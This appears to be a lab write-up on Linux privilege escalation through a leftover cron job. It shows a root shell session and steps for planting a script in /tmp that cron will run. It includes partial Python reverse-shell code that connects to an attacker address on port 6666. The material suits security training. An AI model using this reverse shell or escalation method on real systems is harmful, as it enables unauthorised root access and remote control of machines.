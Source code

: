 bash: cannot set terminal process group (12806): Inappropriate ioctl for device

bash: no job control in this shell

root@ip-10-10-43-228:\~#

root@ip-10-10-43-228:\~# id

id

uid=0(root) gid=0(root) groups=0(root)

root@ip-10-10-43-228:\~# whoami

whoami

root

root@ip-10-10-43-228:\~#

* Crontab can sometimes lead to easy priviledge escalation vectors.

1. System admin needs to run script at regular intervals.
2. Creates a cron job to do this.
3. Script becomes obsolete and is deleted.
4. Cron job is not cleaned up.
   * Change management failure results in potential exploit.
   * test.py has been deleted but cron job still exists.

find /tmp -name test.py

* Cron refers to paths listed under PATH variable in /etc/crontab file if full script is not defined.
* Create script named test1.py in /tmp folder to be run by the cron job.

1. nano /tmp/test1.py
2. Enter reverse shell client code from[ PYTHON REVERSE SHELL](https://medium.com/@rietesh/python-reverse-shell-hack-your-neighbours-552561336ca8).

import socket

import os

import subprocess

\# set target IP and port

target\_host = "10.10.234.130"

target\_port = 6666

\# create client TCP socket

\# connect socket to target IP and port

client = socket.socket(socket.AF\_INET,socket.SOCK\_STREAM)

client.connect((target\_host,target\_port))

\# receive command in data object and decode back to string

\# check if command is cd and use os.chdir to change directory
